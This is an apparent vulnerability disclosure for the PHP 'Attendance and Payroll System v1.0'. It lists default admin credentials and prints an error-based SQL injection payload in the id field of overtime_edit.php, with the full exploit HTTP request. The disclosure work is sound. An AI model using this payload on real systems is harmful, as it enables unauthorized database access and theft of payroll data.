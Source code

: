 # Attendance and Payroll System v1.0 - SQL injection

username:nurhodelta password:password ----> {ip}apsystem/admin/index.php

Supplier： https://www.sourcecodester.com/php/12268/attendance-and-payroll-system-using-php.html

\admin\overtime_edit.php has SQL injection

Payload: id=5' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+&date=1907-05-08&hours=11&mins=NaN&rate=10&edit=

SQL injection because id can be closed

![image](https://user-images.githubusercontent.com/54017627/159261630-83b0d277-7fad-4c21-852c-a218c9f33c0c.png)

```sql
POST /apsystem/admin/overtime_edit.php HTTP/1.1
Host: 192.168.1.17
Content-Length: 113
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.1.17
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.1.17/apsystem/admin/overtime.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=2nud4pa7qt6oo5odl3120a4bta
Connection: close

id=5' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+&date=1907-05-08&hours=11&mins=NaN&rate=10&edit=
```
![image](https://user-images.githubusercontent.com/54017627/159261876-a0408fa2-6430-4f24-8016-1267dd24f513.png)

![image](https://user-images.githubusercontent.com/54017627/159261792-89bd5001-ae70-4f45-9cb6-5ed67153a3a7.png)
